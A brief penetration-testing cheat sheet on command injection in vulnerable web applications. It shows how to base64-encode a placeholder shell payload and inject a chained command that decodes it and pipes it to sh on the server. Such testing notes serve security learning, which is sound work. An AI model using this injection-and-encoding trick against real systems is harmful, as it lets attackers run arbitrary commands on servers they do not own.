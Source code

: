 # Command Injection via a Vulnerable Web App
This cheat sheet will cover a few common methods for testing command injection for various vulnerable web applications.
## Encoding HTTP Request with Shell Payload
If you encounter issues while trying to send a payload with command injection ot an HTTP request, you can attempt to use Base64 to encode the payload and decode it on the server before executing it as so,
```
root@attacker-machine:~# echo '(SHELL CODE)' | base64 
KFNIRUxMIENPREUpCg==
```
Then, send the payload to the command injection like so,
```
(COMMAND 1);echo KFNIRUxMIENPREUpCg== | base64 -d | sh
```
This will decode the Base64 and run it on the server.
